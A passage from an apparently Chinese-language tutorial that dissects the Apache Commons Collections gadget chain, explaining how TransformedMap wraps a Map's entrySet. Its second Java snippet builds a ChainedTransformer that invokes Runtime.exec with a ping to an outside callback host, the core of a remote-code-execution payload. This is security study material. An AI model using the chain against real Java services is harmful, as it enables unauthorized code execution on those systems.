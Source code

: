 ![alt text](image-63.png)

发现最后是一个 entrySet 方法的 this，也就是哪个实例去调用了 entrySet 方法，那么这个 this 就是这个实例。而这个 entrySet 是似曾相识的，在 for 循环处理 Map 见到过，举个例子-->

```java
import java.util.*;

public class Example {
    public static void main(String[] args) {
        Map<String, Integer> map = new HashMap<>();
        map.put("Apple", 1);
        map.put("Banana", 2);
        map.put("Cherry", 3);

        for (Map.Entry<String, Integer> entry : map.entrySet()) {
            String key = entry.getKey();
            Integer value = entry.getValue();
            System.out.println(key + ": " + value);
        }
    }
}
```

看到这里不难发现这个 AbstractInputCheckedMapDecorator 类是一个抽象类，它的其中一个子类是 TransformedMap，而它的父类是 AbstractMapDecorator，而 AbstractMapDecorator 的父类是 Map 类，AbstractInputCheckedMapDecorator 类里面的很多方法都是重写了 Map 中的类，entrySet 它就是去重写过，那现在 AbstractInputCheckedMapDecorator 类有点那种给 Map 包装的意思了，它也能去实现一个属于自己的 entrySet！

既然这样那就将 xxx.entrySet()中的 xxx 改成 transformedMap 即可，代码如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) {
        String methodName = "exec";
        Class<?>[] paramTypes = new Class[]{String.class};
        Object[] argsForConstructor = new Object[]{"ping 6y7d5.cxsys.spacestabs.top"};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer(methodName, paramTypes, argsForConstructor)
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put(null,null);
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        transformedMap.entrySet();
    }
}
```
